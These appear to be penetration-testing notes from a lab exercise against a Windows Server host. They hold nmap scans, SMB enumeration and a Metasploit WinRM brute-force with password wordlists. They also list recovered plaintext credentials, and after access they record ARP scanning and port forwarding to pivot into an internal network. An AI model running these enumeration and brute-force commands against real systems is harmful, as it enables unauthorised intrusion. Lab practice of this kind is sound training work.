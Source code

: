 Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-03 12:28 IST
Nmap scan report for ip-192-168-100-55.ap-southeast-1.compute.internal (192.168.100.55)
Host is up (0.00031s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 06:88:C5:93:13:38 (Unknown)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

#### Found even more after -p-
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAP47I httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC



Administrator:swordfish

# IIS again -p80

`dirb http://192.168.100.55/`
/webdav found but no access

`dirb http://192.168.100.55/ -w /usr/share/metasploit-framework/date/wordlists/directory.txt`


# More sites 
# -p5985 likely WinRM nice


winrm_login
/usr/share/wordlists/rockyou.txt

dirb http://192.168.100.55:5985/
nothing

Found creds but cant log in


# -p47001
nothing



# SMB -p445

tried eternal blue, not vulnerable.

smbclient -L 192.168.100.55 -N
NT status access denied

nmap -p445 --script smb-enum-sessions 192.168.100.55
smbmap -u guest -p "" -d . -H 192.168.100.55

smbmap -u lawrence -p "computadora" -d . -H 192.168.100.55

GOT INMNNMNMMMMMMNNNNN yess
lawrence::computadora

crackmapexec smb 192.168.100.55 -u lawrence -p 'computadora' --users

enum4linux -r -u "lawrence" -p "computadora" 192.168.100.55
rid cycling found:
```
WINSERVER-03\Administrator  (Local User)
WINSERVER-03\Guest (Local User)
WINSERVER-03\DefaultAccount (Local User)
WINSERVER-03\None (Domain Group)

WINSERVER-03\student (Local User)
WINSERVER-03\lawrence (Local User)
WINSERVER-03\mary (Local User)
WINSERVER-03\admin (Local User)
```

Most interesting is "student" -> not seen before


set USER_FILE userlist.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

Got administrator creds!!!!!!!🎉🎉🎉🎉🎉
`192.168.100.55:5985 - Login Successful: WINSERVER-03\Administrator:swordfish`

net users
admin                    Administrator            DefaultAccount           
Guest                    lawrence                 mary                     
student                  WDAGUtilityAccount   

net localgroup Administrators
admin
Administrator

##### Normal user grouup
net users mary
net users lawrence 

Remote Desktop Users
admin
student

# IMPT:
Internal network found
Ethernet adapter Ethernet 4:

   Connection-specific DNS Suffix  . : ap-southeast-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::84d1:5959:fb1:7f92%27
   IPv4 Address. . . . . . . . . . . : 192.168.0.50
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.0.1

arp -a
Interface: 192.168.100.55 --- 0x8
  Internet Address      Physical Address      Type
  169.254.169.123       06-d9-5b-bc-79-be     dynamic   
  169.254.169.254       06-d9-5b-bc-79-be     dynamic   
  192.168.100.1         06-d9-5b-bc-79-be     dynamic   
  192.168.100.5         06-0d-0b-e4-9f-4a     dynamic   
  192.168.100.50        06-17-4e-31-9d-32     dynamic   
  192.168.100.255       ff-ff-ff-ff-ff-ff     static    
  224.0.0.22            01-00-5e-00-00-16     static    
  224.0.0.251           01-00-5e-00-00-fb     static    
  224.0.0.252           01-00-5e-00-00-fc     static    
  255.255.255.255       ff-ff-ff-ff-ff-ff     static    

Interface: 192.168.0.50 --- 0x1b
  Internet Address      Physical Address      Type
  192.168.0.1           06-35-57-23-d1-12     dynamic   
  192.168.0.2           06-35-57-23-d1-12     dynamic   
  192.168.0.255         ff-ff-ff-ff-ff-ff     static    
  224.0.0.22            01-00-5e-00-00-16     static    
  224.0.0.251           01-00-5e-00-00-fb     static    
  224.0.0.252           01-00-5e-00-00-fc     static    
  255.255.255.255       ff-ff-ff-ff-ff-ff     static 


run arp_scanner -r 192.168.0.0/24
```
[*] ARP Scanning 192.168.0.0/24
[*] IP: 192.168.0.1 MAC 06:35:57:23:d1:12
[*] IP: 192.168.0.2 MAC 06:35:57:23:d1:12
[*] IP: 192.168.0.51 MAC 06:ad:c3:5b:a1:5a
[*] IP: 192.168.0.50 MAC 06:22:42:6d:06:7e
[*] IP: 192.168.0.61 MAC 06:a5:eb:19:a6:16
[*] IP: 192.168.0.57 MAC 06:8b:ad:d7:47:5e
[*] IP: 192.168.0.255 MAC 06:22:42:6d:06:7e

```

192.168.0.50 --> DMZ network

192.168.0.1
192.168.0.2
192.168.0.51
192.168.0.61
192.168.0.57

TCP PORT scan
[+] 192.168.0.51:         - 192.168.0.51:22 - TCP OPEN              --> fwd 1234
[+] 192.168.0.51:         - 192.168.0.51:3389 - TCP OPEN         --> fwd 1235
[+] 192.168.0.51:         - 192.168.0.51:80 - TCP OPEN              --> fwd 1236
[+] 192.168.0.51:         - 192.168.0.51:10000 - TCP OPEN         --> fwd 1237

[+] 192.168.0.61:         - 192.168.0.61:3389 - TCP OPEN         --> fwd 1238

[+] 192.168.0.57:         - 192.168.0.57:22 - TCP OPEN         --> fwd 1239



# RDP -p3389
find creds somewhere


